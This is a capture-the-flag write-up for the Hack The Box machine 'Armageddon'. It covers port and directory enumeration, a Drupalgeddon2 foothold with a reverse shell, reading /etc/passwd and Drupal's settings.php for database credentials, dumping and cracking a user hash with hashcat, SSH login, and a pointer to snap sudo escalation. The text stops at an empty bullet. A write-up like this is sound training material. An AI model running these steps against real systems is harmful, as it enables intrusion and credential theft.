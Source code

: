 ```yaml
---
title: "[HTB] Machine: Armageddon"
description: "[HTB] Machine: Armageddon"
date: 2023-08-05
menu:
  sidebar:
    name: "[HTB] Machine: Armageddon"
    identifier: htb-machine-Armageddon
    parent: htb-machines-linux
    weight: 10
hero: images/Armageddon.png
tags: ["HTB", "drupal", "webshell", "upload", "hashcat", "mysql", "sudo", "snap", "snapcraft"]
---
```


# Armageddon
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.233
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 17:41 BST
Nmap scan report for 10.10.10.233 (10.10.10.233)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.20 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.233 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php -no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.233
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] No status:               true
[+] Timeout:                 10s
===============================================================
2023/08/07 18:29:26 Starting gobuster in directory enumeration mode
===============================================================
/index.php            [Size: 7440]
/misc                 [Size: 233] [--> http://10.10.10.233/misc/]
/themes               [Size: 235] [--> http://10.10.10.233/themes/]
/modules              [Size: 236] [--> http://10.10.10.233/modules/]
/scripts              [Size: 236] [--> http://10.10.10.233/scripts/]
/sites                [Size: 234] [--> http://10.10.10.233/sites/]
/includes             [Size: 237] [--> http://10.10.10.233/includes/]
/install.php          [Size: 3172]
/profiles             [Size: 237] [--> http://10.10.10.233/profiles/]
/update.php           [Size: 4057]
/README.txt           [Size: 5382]
/robots.txt           [Size: 2189]
/cron.php             [Size: 7388]
/INSTALL.txt          [Size: 17995]
/LICENSE.txt          [Size: 18092]
/CHANGELOG.txt        [Size: 111613]
/xmlrpc.php           [Size: 42]
/COPYRIGHT.txt        [Size: 1481]

```
- Web Server
  - We see `Drupal 7`

![](./images/1.png)
![](./images/2.png)

## Foothold
- `Drupal` version and `searchsploit`

![](./images/4.png)
![](./images/3.png)

- We have `drupalgeddon3` and `drupalgeddon2`
  - Let's start with `drupalgeddon2` 
  - There is a [github post](https://github.com/dreadlocked/Drupalgeddon2)
  - Got reverse shell, but couldn't upgrade the shell

![](./images/5.png)
![](./images/6.png)
![](./images/8.png)

## User
- Enumerate users
```
bash-4.2$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```
- `grep -irln "password" .` in `/var/www/html`
  - We see `./sites/default/settings.php`
  - `drupaluser:CQHEy@9M*m23gBVj`

![](./images/7.png)

- Since these are `mysql` creds, let's check `db`
  - I have to run db commands from cmd, since I don't have PTY

```
bash-4.2$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal -e 'show tables;'
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal -e 'show tables;'
Tables_in_drupal
actions
authmap
batch
...
users
users_roles
variable
watchdog
```
```
bash-4.2$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal -e 'select * from users;'
<er -p'CQHEy@9M*m23gBVj' drupal -e 'select * from users;'                    
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu a:1:{s:7:"overlay";i:1;}

```

- Let's crack the hash with `hashcat`
  - `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`
  - `hashcat -m 7900 hash /usr/share/wordlists/rockyou.txt`
  - `brucetherealadmin:booboo`

![](./images/9.png)

- `ssh` as `brucetherealadmin`

![](./images/10.png)

## Root
- Enumerate `sudo` rights
  - [GTFOBins](https://gtfobins.github.io/gtfobins/snap/)

![](./images/11.png)

- 